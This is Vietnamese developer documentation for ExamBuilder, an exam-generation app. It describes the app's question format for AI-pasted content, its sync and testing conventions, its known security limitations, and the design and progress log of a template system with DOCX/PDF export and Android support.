`examCodeGenerator.generateExamCodes`: nhóm câu theo cặp (loại × mức độ), Fisher-Yates, chia quota `floor(total/q)` mỗi nhóm cho `q` mã → tỉ lệ độ khó đồng đều, không trùng câu giữa các mã cho tới khi hết nguồn; xáo A/B/C/D độc lập mỗi mã. Xuất PDF/Word gồm tất cả mã (ngắt trang).

### 10.4. Chia sẻ
- Đề ngắn (base64 < ~1.8KB): `?data=<base64>` — không cần server.
- Đề dài: `/api/exams/save` → `/api/exams/share` → `?code=<8hex>`; có thể thu hồi.

### 10.5. Đồng bộ PC ↔ Android
- Union theo `exam_id`; khi trùng id: **chiều đang chạy thắng** (Push: local thắng; Pull: cloud thắng).
- Xoá = tombstone cục bộ; chỉ lan sang máy khác sau khi Push; dọn tombstone > 90 ngày khi Push.
- Chủ đề màu đồng bộ theo **"lần đổi gần nhất thắng"** (`theme.updated_at`); cỡ chữ không đồng bộ.

---

## 11. Định dạng văn bản đề & hệ thống prompt

### 11.1. Định dạng (do `TextPromptParser` đọc)

```
=PHAN_1_TRAC_NGHIEM=

[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Kết quả của phép tính (-5) + 3 là bao nhiêu?
A. -2
B. 2
C. -8
D. 8
Dap_An: A
Loi_Giai: (-5) + 3 = -2

=PHAN_2_TU_LUAN=

[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung
De_Bai: Giải phương trình $x^2 - 5x + 6 = 0$.
Dap_An: x = 2 hoặc x = 3
Loi_Giai: ...
So_Dong_Nhap: 6
```

- `Loai`: `TN` | `DUNG_SAI` | `DIEN_TU` (chỗ trống `___`) | `TU_LUAN` (chỉ ở Phần 2).
- `Muc_Do`: `Nhan_Biet` | `Thong_Hieu` | `Van_Dung` | `Van_Dung_Cao` (không phân biệt hoa/thường).
- Lỗi parse báo kèm vị trí "Phần X – Câu Y".

### 11.2. Nguồn prompt → file sinh tự động



Chạy `npm run gen:prompt` sau khi sửa bất kỳ file `.txt` nào. Test `promptTemplate.test.js` / `promptVariants.test.js` kiểm tra file sinh khớp nguồn và ví dụ mẫu parse được.

---

## 12. Kiểm thử

```bash
npm test                 # ~355+ test case (Jest + Supertest)
npm run test:coverage    # coverage cho backend/ (~97% statements, LLM ~72%)
```

- Cấu trúc `tests/` mirror `backend/`: `parser/`, `llm/`, `routes/`, `sync/`, + `database.test.js`, `errorHandler.test.js`.
- Test API dùng SQLite in-memory (`EXAM_DB_PATH=:memory:`), `closeDb()` sau mỗi test.
- `*.adversarial.test.js`: race condition, prototype pollution, mass assignment, injection, unicode biên, payload lớn.
- `syncFlow.e2e.test.js`: 2 "thiết bị" (2 DB) đồng bộ qua 1 Gist giả lập.
- Test ghi chú `[Da sua]` / `[Critical - da sua]` = regression test cho bug đã sửa.
- Android: `app/src/test/.../MathPromoteTest.kt` chạy cùng vector với web.

---

## 13. Quy ước & quy tắc khi sửa code

1. **Không sửa tay** `frontend/promptTemplate.js`, `frontend/promptVariants.js`, `documents/PROJECT_BLUEPRINT.md` — sửa nguồn rồi chạy script sinh.
2. **Định dạng đề chỉ sửa ở `Gemini_Prompt_Unified.txt`**; nếu đổi cú pháp thì phải cập nhật `TextPromptParser` + test + chạy `gen:prompt`.
3. **Giữ đồng bộ Web ↔ Kotlin**: đổi `mathToLatex.js` → đổi `MathPromote.kt` + thêm vector vào `mathPromoteVectors.json`; đổi `sync/library.js` → đổi `LibraryMerge.kt`; đổi schema đề → đổi `model/Exam.kt` + `LibraryDto.kt`.
4. **Hàm chuẩn hoá toán phải idempotent** và không chạm vào khối `$...$` có sẵn.
5. **An toàn hiển thị**: nội dung người dùng/AI → `textContent`; chỉ `innerHTML` cho output KaTeX.
6. **SQL** luôn tham số hoá `?`; transaction ghi bọc `withLock`.
7. **API key / token** không bao giờ trả full về client (che khi đọc).
8. Code backend: CommonJS (`require`), trừ `backend/parser/` là ESM. Comment trong code viết **tiếng Việt không dấu**; UI/README viết có dấu.
9. Response API luôn `{ success, ... }`; lỗi qua `errorHandler` hoặc trả `{ success: false, error }`.
10. Commit message tiếng Việt không dấu, dạng `TASK X: ...` cho các đợt việc lớn.

---

## 14. Trạng thái hiện tại & Roadmap

### 14.1. Lịch sử gần đây (nhánh `feature/chuan-hoa-cong-thuc-toan-latex`)
- `32ded02` TASK B+C — hoàn thiện bộ chuẩn hoá công thức toán (web) + chốt chặn
- `6c712d7` TASK D — port bộ chuẩn hoá sang Kotlin + đẩy dây (APK)
- `c76844b` TASK E — chuẩn hoá công thức toán đề cũ khi nạp (web + APK)
- `155a8c4` Bỏ hoàn toàn renderer "căn/phân số giả bằng CSS" — chỉ dùng KaTeX
- `990dac9` APK: versionCode 2, versionName 1.1.0

### 14.2. Thay đổi đang làm dở (chưa commit)
- **Prompt riêng cho từng AI**: `AI_Prompts_Variants.txt` + `tools/gen-prompt-variants.js` → `frontend/promptVariants.js`; UI tab chọn AI; test `promptVariants.test.js`.
- **Model cloud "live"**: `listModels()` cho 3 provider, `POST /api/settings/llm/models`, `/api/generate` nhận `provider + model_name` — lưu API key là thấy toàn bộ model của hãng trong dropdown.
- **Yêu cầu bổ sung cho AI** (`extra_instructions`) trong tab Sinh đề tự động.
- **Upload Phần tài liệu từ file** `.txt/.docx/.pdf` (thêm dependency `pdf-parse`).
- `tools/export-blueprint.js` → `documents/PROJECT_BLUEPRINT.md`.

### 14.3. Ý tưởng tiếp theo (từ ghi chú của chủ dự án)
1. **Đề kiểm tra theo template**: khung đề có sẵn + các khuôn mẫu để dán nội dung kèm số dòng; tải được background template; kèm prompt để AI ngoài sinh đề khớp template.
2. **Cho học sinh làm bài online**: 2 web song song (giáo viên / học sinh), gửi đề – nhận bài, học sinh làm trực tuyến, tải đề về PDF/DOC.

Hệ quả kiến trúc cần cân nhắc cho (2): hiện chưa có xác thực/định danh người dùng, server đang chạy local; cần thêm khái niệm phiên thi, bảng bài làm, chấm tự động cho TN/Đúng-Sai/Điền từ, và tách bản đề học sinh (không gửi đáp án xuống client).

### 14.4. Template System đang triển khai (11/10/2026)

Nguồn quyết định là `prompt_update.txt`; trạng thái chi tiết và bằng chứng test ở [TEMPLATE_SYSTEM_PROGRESS.md](./TEMPLATE_SYSTEM_PROGRESS.md). M1 có 10 seed gốc ID `builtin.t01`–`builtin.t10` chỉ đọc, clone riêng lưu phiên bản trong SQLite; số câu do executor chọn và công bố trong `backend/templates/seeds.js`. Web có nút **Mẫu đề** mở gallery/editor danh sách, preview chọn slot và prompt động P1/P2/P3 cho năm AI ngoài. Nội dung AI vẫn là text thuần; route `templatePromptRoutes.js` parse/validate/map theo slot ID trước khi người dùng xác nhận.

`template_binding` lưu snapshot nhỏ cùng đề qua archive và Gist; Android DTO giữ trường đó, áp giấy/điểm/vùng trả lời và cảnh báo khi chưa áp được nền/hai cột. DOCX theo mẫu do `templateExportRoutes.js` tạo, nhúng PNG/JPEG có quản lý và lấy header/footer từ `appearance.header/footer`; PDF dùng hộp thoại in của trình duyệt. Tài nguyên ảnh/Word/PDF đi qua `backgroundRoutes.js`; nhận diện cấu trúc chỉ dùng text native và luôn cần duyệt. Không có OCR. PDF import-as-background raster tối đa 10 trang đầu thành PNG; DOCX nhập làm nền chưa raster hóa, vùng tọa độ tay chưa áp đầy đủ vào file xuất; giới hạn trang DOCX là ước lượng. Android đã build APK debug và chạy 5 unit test thành công bằng Gradle 8.14.3; chưa kiểm trên thiết bị thật. Luồng LLM API cũ có lỗi được người dùng báo nhưng chưa có ca tái hiện/key thật; xem `LLM_API_DIAGNOSTICS.md`.

---

## 15. Giới hạn đã biết & bảo mật

- Không có xác thực — chỉ phù hợp chạy local/nội bộ.
- API key LLM và GitHub token lưu **plaintext** (SQLite / DataStore). Gist "secret" **không mã hoá** — ai có URL đọc được toàn bộ đề kèm đáp án. Dùng token chỉ quyền `gist`.
- Ghi chú cá nhân (`Document.txt`) đã được `.gitignore` vì có token — **không đưa token vào tài liệu/commit**.
- `npm audit`: lỗ hổng trong chuỗi build native của `sqlite3` (chỉ lúc build) — nên nâng `sqlite3` 6.x ở một đợt riêng.
- Không hỗ trợ `.xlsx` (thư viện phổ biến có lỗ hổng chưa vá).
- Model `.gguf` local: cần RAM lớn (7B Q4 ~4–5GB), chạy CPU chậm, lần đầu cần mạng để tải binary.
- Android: đồng bộ thủ công 2 nút; xung đột giải quyết theo cả đề (không theo dòng); đề đang soạn dở có thể mất nếu kill app trước autosave.
- In PDF nền ảnh phụ thuộc tuỳ chọn "Background graphics" của trình duyệt.

````

### FILE: documents/TEMPLATE_SYSTEM_ARCHITECTURE.md

````markdown
# ADR — kiến trúc template trên ExamBuilder hiện có

Ngày lập: 11/10/2026. Trạng thái: hợp đồng thiết kế M0; chưa phải bằng chứng M1–M7 đã chạy.

## Nguồn sự thật và điểm nối đã kiểm tra

| Chức năng hiện có | Mã nguồn thực | Cách nối template |
| --- | --- | --- |
| SQLite | `backend/database.js` | Migration additive; bảng template/revision/asset độc lập, không sửa ngầm bảng EXAM/QUESTION |
| Dán AI | `backend/parser/TextPromptParser.js` | Adapter cú pháp v2 → validate/map slot; giữ parser v1 cho đề cũ |
| Prompt cũ | `Gemini_Prompt_Unified.txt`, `backend/llm/promptBuilder.js`, `tools/gen-prompt-module.js` | Quy tắc cú pháp chung; composer template động dùng manifest; sinh lại module frontend, không sửa tay |
| Biến thể AI cũ | `AI_Prompts_Variants.txt`, `tools/gen-prompt-variants.js` | Registry có cấu trúc cho 5 tên bắt buộc; Gemini Pro là biến thể Gemini nếu cần |
| Tạo đề qua API | `backend/routes/generateRoutes.js`, `backend/llm/ProviderFactory.js` | Luồng tùy chọn, không chặn Copy/Dán offline |
| Archive/Gist | `backend/routes/archiveRoutes.js`, `backend/sync/library.js`, `backend/sync/gistClient.js` | Snapshot nhỏ và asset manifest; version schema; giữ payload v1 |
| Giao diện | `frontend/index.html`, `frontend/script.js`, `frontend/style.css` | Gallery + editor danh sách/inspector + preview liên kết |
| Android | `Exam builder for adr/app/src/main/` | DTO versioned, đọc v1/v2, text fallback khi thiếu asset |

`documents/PROJECT_BLUEPRINT.md` là file sinh bằng `tools/export-blueprint.js`; không sửa tay. Nhánh đang làm: `feature/chuan-hoa-cong-thuc-toan-latex`; tại M0 có các sửa đổi chưa commit ở LLM, giao diện, test và tài liệu. Không reset hay ghi đè các thay đổi đó.

## Kiểm kê phụ thuộc M0

`package.json` đang dùng Express 4, SQLite (`sqlite`/`sqlite3`), `docx`, `mammoth`, `pdf-parse`, `multer`, `katex` và `node-llama-cpp`; test dùng Jest/Supertest. Frontend là HTML/CSS/JavaScript thuần, Android là dự án Kotlin/Compose trong `Exam builder for adr/`. Chưa cần đổi stack để làm editor danh sách, prompt, parser hay migration. Phụ thuộc DOCX/PDF hiện có không đồng nghĩa mọi layout import/export đã được xác minh; các bước thực tế phải theo `TEMPLATE_SYSTEM_TEST_PLAN.md`. Không thêm OCR dependency trong phạm vi hiện tại.

## Ranh giới thành phần



Template là **cấu trúc** (`sections`, `slots`, `points`, `response_space`) cộng **trình bày** (`page`, `background_refs`, layout). Exam snapshot giữ nội dung riêng với `template_id` và `template_revision`; không sửa một mẫu gốc để điền đề. Clone có ID/revision riêng, liên kết `derived_from` chỉ để truy vết. Stable ID giữ khi reorder, ID mới khi clone thêm slot; không tái sử dụng ID đã xóa.

## Hợp đồng JSON đang dùng ở M1 (lựa chọn kỹ thuật)

```json
{
  "schema_version": 1,
  "template_id": "builtin.t09",
  "template_version": 1,
  "display_name": "Đề hai cột, tiết kiệm giấy",
  "origin": "builtin",
  "is_builtin": true,
  "defaults": { "total_points": "10.00", "duration_minutes": 45 },
  "appearance": { "paper": "A4", "orientation": "portrait", "columns": 2 },
  "pagination": { "mode": "auto", "max_pages": null },
  "sections": [{ "section_id": "builtin.t09.s01", "title": "Phần 1. Trắc nghiệm", "kind": "MULTIPLE_CHOICE", "declared_points": "5.00", "slots": [{
    "slot_id": "builtin.t09.s01.q001", "position": 0, "question_type": "MCQ", "difficulty_level": "NB", "points": "0.50",
    "answer_space": { "kind": "none", "lines": 0, "min_lines": 0, "max_lines": 0, "auto_expand": false },
    "content": null, "assets": []
  }] }]
}
```

Ví dụ rút gọn từ `backend/templates/seeds.js`, bỏ các trường còn lại và 9 slot khác ở phần đầu để dễ đọc. T09 thực có 10 câu trắc nghiệm và 2 câu tự luận, tổng 10 điểm. Điểm được lưu chuỗi thập phân hai chữ số, validator cộng bằng đơn vị 0,01. Bản sao chỉnh sửa có `template_version`; bản đề cần trỏ revision hoặc giữ snapshot đầy đủ để mở khi template đã thay đổi/xóa. API trả `{ success, ... }` như các route hiện có.

## Migration và đồng bộ

1. Đã thêm bảng template và phiên bản theo migration idempotent; seed gốc nằm trong code và không tạo bản trùng khi khởi động. Không thay/đổi tên bảng v1, không xóa dữ liệu.
2. Đề v1 vẫn đi đường cũ. Đề áp mẫu có `template_binding` gồm `schema_version`, `template_id`, `template_version`, `template_snapshot`, `asset_manifest`; archive giới hạn binding 1 MiB và trả lại khi mở.
3. `backend/sync/library.js` đã giữ `template_binding` trong serialize/merge Gist; Android `LibraryDto.kt`/`Exam.kt` giữ trường tùy chọn. Android xuất qua block cũ với cảnh báo layout/nền chưa tương đương.
4. Asset nhị phân lưu ngoài Gist theo SHA-256 và MIME; bản archive/Gist chỉ giữ tham chiếu. Upload ảnh có kiểm tra signature và SVG hạn chế; import DOCX/PDF text native vẫn phải duyệt. Nền/ảnh chưa được nhúng đầy đủ trong xuất file.

## Kiểm soát tính đúng

Validator kiểm ID/version, danh sách slot, loại, điểm và tổng; parser không tự tạo slot. Mapper ưu tiên ID, chỉ đề xuất thứ tự nếu không mơ hồ, không ghi đè nội dung ngoài selection. Transaction khi apply; trước/sau có diff và Undo. Render bản HS chặn đáp án ở mọi lớp, không chỉ ẩn CSS. MAX-PAGES báo vị trí tràn mà không cắt hoặc ép chữ. Import DOCX/PDF native text là best effort; scan đi đường nền/manual, không OCR.

## Asset/import backend đang có ở M4

`backend/routes/backgroundRoutes.js` giữ `GET /api/backgrounds` dạng mảng tên file cho UI cũ. API mới: `GET /api/backgrounds/assets`, `POST /api/backgrounds/upload` (multipart `file`, ảnh PNG/JPG/WebP/SVG giới hạn), `POST /api/backgrounds/import` (multipart `file` DOCX/PDF + `mode=background|structure`) và `GET /api/backgrounds/assets/:id/file`. File tối đa 20 MB, kiểm magic và SVG theo tập phần tử/thuộc tính hạn chế, đặt tên theo SHA-256, lưu metadata JSON; đường dẫn thư mục có thể đổi bằng `EXAM_BACKGROUNDS_DIR`/`EXAM_TEMPLATE_ASSETS_DIR` cho test. DOCX được kiểm thư mục ZIP, tối đa 2.000 entry/20 MB mỗi entry/50 MB giải nén cộng dồn và giải nén có giới hạn trước Mammoth. PDF giới hạn 100 trang; text trích xuất của hai định dạng giới hạn 1 MB. `structure` trả `raw_text`, gợi ý phần/câu độ tin cậy thấp và `review_required`; scan không có text trả cảnh báo, không OCR. `background` luôn lưu file gốc, trả `manual_regions: []`; với PDF, render tối đa 100 trang đầu thành PNG rộng 960 px và trả `background_pages` có page number, asset ID, SHA-256, MIME, kích thước và URL. Mỗi PNG tối đa 2 MB, tổng tối đa 12 MB và cao tối đa 2400 px; lỗi render hoặc trang vượt giới hạn có cảnh báo và file gốc vẫn còn. DOCX background tùy chọn dùng `backend/documentConvert/docxToPdf.js` và `tools/docx-to-pdf.ps1` gọi Microsoft Word COM trên Windows (ẩn cửa sổ, chỉ đọc, tắt macro), xuất PDF tạm rồi tái sử dụng giới hạn raster PDF tối đa 100 trang. Máy không có Word hoặc chuyển đổi lỗi vẫn lưu file gốc và trả cảnh báo để tải file/đánh dấu vùng thủ công. Chuyển đổi Office chỉ có trên Windows; Linux/macOS giữ fallback gốc.

## Xuất DOCX theo mẫu (M5)

`backend/templateExport/index.js` dựng header/footer từ `appearance.header`/`appearance.footer` khi template có cấu hình đó: `enabled` quyết định có xuất hay không, `fields` quyết định nội dung (school/exam_title ở header, page_number ở footer), có thể ghi đè bằng `metadata.header`/`metadata.footer`. Template không có cấu hình giữ hành vi cũ (header chỉ khi có metadata, footer luôn có số trang). Nền một ảnh hỗ trợ `apply_to` `all` và `first`. Khi có manifest ảnh trang, mỗi trang xuất thành một Word section nên hỗ trợ nền đầu/giữa/cuối khác nhau; file thiếu ảnh vẫn giữ nội dung và báo cảnh báo. `backend/templateExport/assets.js` dùng `@napi-rs/canvas` chuyển WebP/SVG đã kiểm tra sang PNG (tối đa 20 MP, cạnh 10.000 px, đầu ra 2.400 px/5 MiB) trước khi nhúng DOCX. Slot có vùng tọa độ hợp lệ trên trang nền được render thành PNG trong suốt, đặt tuyệt đối theo tọa độ trang và giữ nội dung trong alt text; vì Word không giữ text flow tuyệt đối ổn định, hệ thống cảnh báo phần đó không còn chỉnh sửa trực tiếp như đoạn văn. Nếu nội dung vượt vùng, câu trở lại luồng văn bản editable và phát cảnh báo để không cắt chữ.

````

### FILE: documents/TEMPLATE_SYSTEM_FUTURE_OCR.md

```markdown
# Roadmap OCR tương lai — không thuộc bản triển khai hiện tại

Quyết định chủ dự án (câu 34 trong `prompt_update.txt`): **không triển khai OCR hiện tại**. Không cài thư viện/binary/model, không tải model, không gọi OCR API, không thêm nút OCR chưa chạy và không quét ngầm. PDF scan hiện chỉ hiển thị/dùng làm nền, cho đánh dấu vùng điền text thủ công và cảnh báo không trích được chữ.

Nếu chủ dự án cho phép ở phiên bản sau, thêm adapter tùy chọn sau bước kiểm tra PDF có lớp text native. Hợp đồng dữ liệu đề xuất: `page raster → { text, bbox, confidence, language }[] → review UI → importer cấu trúc → slot mapper`. Adapter chỉ chạy khi người dùng chủ động chọn; mặc định tắt, không tự tải model, cài hay thiếu plugin đều không ảnh hưởng các chức năng hiện có. OCR không được tự sửa cấu trúc seed hoặc grammar prompt.

Khi đánh giá giải pháp offline (ví dụ Tesseract local hoặc model nội bộ), đo giới hạn trang/DPI/RAM/CPU, timeout, tiến độ, hủy, bộ nhớ tạm và xóa dữ liệu tạm. QA riêng tiếng Việt, công thức, bảng, hai cột, điểm số, đáp án, PDF scan xoay/mờ. Confidence thấp và mọi ánh xạ mơ hồ phải chuyển sang duyệt/sửa tay. Dữ liệu OCR là nội dung chưa tin cậy; kiểm an toàn như text dán và không giả định nó đúng.

```

### FILE: documents/TEMPLATE_SYSTEM_PRD.md

```markdown
# ExamBuilder 2.0 — yêu cầu hệ thống template

Ngày lập: 11/10/2026. Nguồn quyết định: `prompt_update.txt`, Phần I–II (42 câu đã chốt). Đây là yêu cầu triển khai trên ứng dụng hiện có, không phải mô tả tính năng đã hoàn tất.

## Người dùng và luồng chính

- Giáo viên chọn một trong đúng 10 mẫu gốc, nhập metadata và nội dung vào slot mà không đổi số câu/cấu trúc của mẫu gốc.
- Giáo viên tạo bản sao tùy chỉnh để thêm, xóa, đổi thứ tự phần/câu, điểm, vùng trả lời, trang và hình thức; lưu, mở lại, xuất/nhập bản sao.
- Giáo viên chọn P1/P2/P3 và một trong ChatGPT, Claude, Gemini, DeepSeek, Grok; xem và sao chép prompt động; dùng AI ngoài sinh **văn bản thuần**, dán về, xem lỗi ánh xạ rồi duyệt bản thay đổi trước khi áp dụng. Luồng này chạy không cần API key.
- Giáo viên tải nền ảnh/DOCX/PDF; chọn dùng làm nền hoặc thử trích cấu trúc bằng cách xác định rồi duyệt/sửa tay. PDF scan dùng làm nền và đánh dấu vùng thủ công; phiên bản này không có OCR.
- Giáo viên xem/xuất bản học sinh, giáo viên, đáp án riêng hoặc cuối cùng một file; PDF/DOCX có A4/A5, dọc/ngang, lề, header/footer, số trang, tự phân trang hoặc giới hạn trang kèm cảnh báo không cắt nội dung.
- Android mở, xem, xuất đề từ template, chỉnh sửa cơ bản, dùng offline khi có dữ liệu; tài nguyên thiếu/quá lớn phải được báo và giữ nguyên chữ, câu, đáp án.

## Đúng mười mẫu gốc

| ID | Tên cố định | Đặc điểm |
| --- | --- | --- |
| T01 | Đề kiểm tra 15 phút | Bài ngắn |
| T02 | Đề kiểm tra 45 phút | Bài một tiết |
| T03 | Đề giữa học kỳ | Phân phần/điểm |
| T04 | Đề cuối học kỳ | Phân phần/điểm |
| T05 | Đề 100% trắc nghiệm | Các câu trắc nghiệm |
| T06 | Đề 100% tự luận | Vùng trả lời |
| T07 | Đề kết hợp nhiều dạng câu | Nhiều loại câu |
| T08 | Đề Toán có nhiều vùng trình bày lời giải | Vùng lời giải chuyên biệt |
| T09 | Đề hai cột, tiết kiệm giấy | Dàn trang hai cột thật |
| T10 | Đề Ngoại ngữ có phần đọc hiểu | Đoạn đọc gắn câu hỏi |

Các mẫu là điểm khởi đầu đa môn/lớp. **Số câu và cấu trúc cụ thể từng seed là lựa chọn kỹ thuật của người triển khai**, vì chủ dự án chưa cho con số. `backend/templates/seeds.js` hiện định nghĩa số câu T01–T10 lần lượt là **6, 11, 14, 19, 20, 5, 10, 4, 12, 11**; test phải khóa các giá trị đó. Mẫu gốc read-only về cấu trúc, bản sao mới sửa cấu trúc. Nội dung slot và metadata đề vẫn điền được trên mẫu gốc.

## Yêu cầu dữ liệu và tương tác đã chốt

- Slot/phần có ID ổn định, loại, mức độ, điểm chính xác đến 0,01, đáp án/lời giải, subpart tự luận, vùng trả lời (dòng kẻ, vùng trống, ô ly, bảng, vùng vẽ) và giới hạn min/max dòng.
- Tổng điểm câu/phần/đề được đối chiếu; nhập thủ công hoặc chia tự động; thang mặc định 10 nhưng linh hoạt. AI và import không âm thầm sửa điểm.
- Editor danh sách + bảng thuộc tính, chọn khối từ preview A4; kéo thả đơn giản và nút lên/xuống. Canva chỉ là công cụ bên ngoài tạo PNG/PDF để upload.
- Metadata gồm trường, lớp, môn, chủ đề, năm, học kỳ, thời gian, giáo viên, tài liệu, ghi chú, chỉ dẫn AI; phần lớn tùy chọn.
- Import ưu tiên map bằng stable slot ID; ghép theo thứ tự chỉ là gợi ý có căn cứ. Mơ hồ để người dùng quyết; sửa/tái sinh có diff, xác nhận, Undo; slot không chọn không đổi.
- Ảnh minh họa được upload riêng và gắn câu. AI chỉ có thể ghi placeholder/chú thích text; không tạo ảnh, file hay bố cục.
- Tài nguyên nhị phân lớn tách khỏi Gist; manifest/ref/checksum, cảnh báo thiếu trên thiết bị. Migration additive, đề cũ vẫn mở/sửa/xuất/sync.

## Nhóm prompt và điều kiện chấp nhận

P1 sinh toàn đề; P2 sinh phần/slot chọn; P3 kiểm tra hoặc sửa/tái sinh chọn lọc. Mỗi template có cả ba nhóm trong một khu vực rõ ràng, bộ chọn năm AI và Copy Prompt. Nội dung cập nhật khi cấu trúc, điểm, mức độ, dòng, metadata hoặc hướng dẫn đổi. Quy tắc cú pháp chung và biến thể AI quản lý tập trung.

Chấp nhận khi kiểm chứng thực tế: đúng 10 seed không nhân đôi sau restart; khóa cấu trúc seed và sửa được clone; P1/P2/P3 × 5 AI tạo prompt parse được; nội dung map đúng và giữ slot không chọn; điểm khớp; hai chế độ import có đường duyệt tay; bản HS không lộ đáp án; PDF/DOCX thực mở được, không cắt chữ khi quá trang; T08/T09/T10 có layout thật; archive/sync/Android và luồng cũ không mất dữ liệu. Trạng thái thực thi và bằng chứng test theo `TEMPLATE_SYSTEM_TEST_PLAN.md` cùng file tiến trình của dự án.

```

### FILE: documents/TEMPLATE_SYSTEM_PROGRESS.md

```markdown
# Tiến trình Template System

Cập nhật: 2026-10-13 · Nhánh `feature/chuan-hoa-cong-thuc-toan-latex`

Quy ước: `[ ]` chưa hoàn tất, `[x]` đã triển khai và kiểm chứng. Không đánh dấu hoàn tất khi chưa có bằng chứng chạy test phù hợp.

## M0 — Khảo sát và nền tảng

- [x] Đọc `prompt_update.txt`, kiểm tra nhánh và thay đổi chưa commit; giữ nguyên công việc hiện có.
- [x] Chạy test nền: 27 suites, 422 tests đạt (`npm test -- --runInBand`).
- [x] Ghi PRD/kiến trúc, hợp đồng dữ liệu, migration, kế hoạch test trong `documents/`.
- [x] Ghi chẩn đoán luồng LLM API cũ; lỗi dùng credential thật chưa tái hiện được từ báo cáo thiếu triệu chứng cụ thể.

## M1 — Domain và kho template

- [x] Schema có phiên bản, validator, đúng 10 seed bất biến với ID và số slot ổn định.
- [x] Clone tùy chỉnh, CRUD, lưu SQLite additive, kiểm điểm; sau M1 có 30 suites, 433 tests đạt.

## M2 — Web gallery và editor

- [x] Gallery, editor danh sách/inspector, preview chọn slot, clone, lên/xuống, lưu bản tùy chỉnh; smoke Chrome headless kiểm gallery, prompt, clone và lưu điểm.
- [x] Metadata, kiểm điểm so với thang điểm, vùng trả lời, A4/A5/chiều giấy, preview HS/GV/đáp án và thao tác thay thế drag bằng nút lên/xuống.

## M3 — Prompt và ánh xạ AI

- [x] Nguồn prompt tập trung, P1/P2/P3 và 5 AI, prompt động theo slot; HTTP build trả đúng 6 slot T01.
- [x] Dán text, parse/validate, diff, xác nhận Apply và Undo, bảo toàn slot khác; test module đạt và smoke trình duyệt đi qua validate/diff/Apply.

## M4 — Tài nguyên và import

- [x] Thư viện nền, upload PNG/JPG/WebP/SVG an toàn, lưu asset; DOCX/PDF trích text native, gợi ý cấu trúc để duyệt.
- [x] PDF import-as-background raster tối đa 100 trang đầu thành PNG có giới hạn tổng 12 MiB; PDF thật 14 trang raster đủ ảnh, PDF quá 100 trang vẫn giữ file gốc + manifest/fallback.
- [x] DOCX cảnh báo khi slot manual region thiếu nền; vùng hợp lệ được đặt bằng overlay PNG, nội dung quá vùng được chuyển lại luồng văn bản editable để không cắt.
- [x] DOCX import-as-background chuyển qua Microsoft Word trên Windows sang PDF rồi PNG; khi Word thiếu/lỗi, giữ file gốc và cảnh báo rõ để tải xuống/đánh dấu thủ công.
- [x] Vùng tọa độ tay áp theo từng trang DOCX; PDF raster đến 100 trang trong ngân sách; manifest gồm checksum/vai trò/page number, binary không đưa vào Gist và fallback giữ nội dung khi thiếu asset.
- [x] Chỉ tài liệu hóa OCR tương lai; không cài hoặc gọi OCR.

## M5 — Xuất và phân trang

- [x] DOCX cho HS/GV/đáp án, A4/A5, chiều giấy, lề, số trang, hai cột T09 và đoạn đọc T10; test đọc DOCX/OOXML thật.
- [x] Nhúng PNG/JPEG đã quản lý làm nền trang đầu/mọi trang và ảnh slot trong DOCX, kiểm checksum/size.
- [x] Header/footer DOCX theo `appearance.header/footer` (enabled + fields) và metadata; test OOXML xác nhận tiêu đề trường/đề xuất hiện, số trang có mặt, và T01 tắt footer thì không còn số trang.
- [x] In/Lưu PDF qua Chrome headless: PDF học sinh có đủ text câu thử nghiệm và không chứa lời giải; UI screenshot đã xem.
- [x] WebP/SVG nền và ảnh slot chuyển PNG có giới hạn kích thước rồi nhúng DOCX; kiểm tra OOXML xác nhận bytes PNG thật.
- [x] Nền trang đầu/mọi trang và cảnh báo giới hạn `BACKGROUND_SCOPE_LIMIT` rõ ràng khi cấu hình nền giữa/cuối trên một ảnh duy nhất; hỗ trợ đầy đủ khi có manifest trang.
- [x] MAX-PAGES cảnh báo theo ước lượng và không cắt; Word render smoke hai trang với maxPages=1 xác nhận cảnh báo xuất hiện, đủ hai trang/nội dung.

## M6 — Lưu trữ, đồng bộ, Android

- [x] Snapshot `template_binding`, archive và sync tương thích cũ, không đưa binary lớn vào Gist; test round-trip đạt.
- [x] Android giữ binding, hiển thị điểm/ngữ liệu/vùng trả lời, áp khổ/chiều/lề xuất file; `testDebugUnitTest` 5/5 đạt và `assembleDebug` tạo APK debug.
- [ ] Nền/hai cột Android và kiểm thử trên thiết bị thật chưa xác minh.

## M7 — Hoàn thiện

- [x] Regression JavaScript 33 suites/478 tests đạt (`npm test -- --runInBand`); smoke export đủ 10 seed × 4 chế độ; smoke Chrome trước đó kiểm gallery/prompt/dán AI/clone/PDF học sinh; lượt này kiểm DOCX/PDF nhiều trang qua Word và 14 trang PDF import.
- [x] Thêm `aria-live="polite"` cho vùng trạng thái template; các nút/nhãn đã có text hoặc `aria-label`.
- [x] Benchmark đề 500 slot: DOCX 15.546 byte, 85 ms trong môi trường này; seed/export coverage chạy qua regression.
- [ ] QA thủ công đủ 10 mẫu/chế độ trên Android thật cần làm; hiện ADB không có thiết bị kết nối.

## Đợt rà soát 13/10/2026 — kiểm lại tính năng đã làm

Kiểm lại code M1–M7 với `prompt_update.txt`; các lỗi dưới đây tìm thấy và đã sửa, có test hồi quy.

- [x] **Sai đáp án sau khi xáo** (nghiêm trọng): inspector chỉ tính `is_correct` lúc sửa lựa chọn; nhập lựa chọn trước rồi đáp án sau làm mọi `is_correct=false`, nên khi "Mở trong trình soạn đề" (có xáo A–D) đáp án giữ chữ cũ. Nay `is_correct` luôn suy ra từ `correct_answer`, và việc chuyển sang trình soạn đề bị chặn nếu đáp án TN không trùng A/B/C/D. Smoke Chrome: 4/4 câu TN `correct_answer = C` khớp `is_correct`.
- [x] **Link chia sẻ lộ đáp án**: `?data=` và `GET /api/exams/shared/:code` trả cả `correct_answer`, `explanation`, `is_correct`, `template_binding`. Thêm `backend/parser/examRedaction.js` dùng chung trình duyệt/server; bản lưu của giáo viên giữ nguyên. Test route + smoke link thật.
- [x] **Chọn slot tự gán vùng tọa độ** khi template có trang nền PDF (vùng mặc định 10%/10% → DOCX đặt chồng mọi câu đã xem lên cùng chỗ). Nay phải bấm "Gắn vùng trên trang nền", có nút "Bỏ vùng". *Chưa smoke bằng PDF nền thật trên trình duyệt.*
- [x] **Ảnh WebP trong DOCX ra PNG trong suốt**: `@napi-rs/canvas` 0.1.100 giải mã ảnh raster bất đồng bộ; `rasterize()` vẽ trước khi giải mã xong. Thêm `await image.decode()`; test cũ chỉ kiểm chữ ký PNG nên đã bổ sung kiểm pixel.
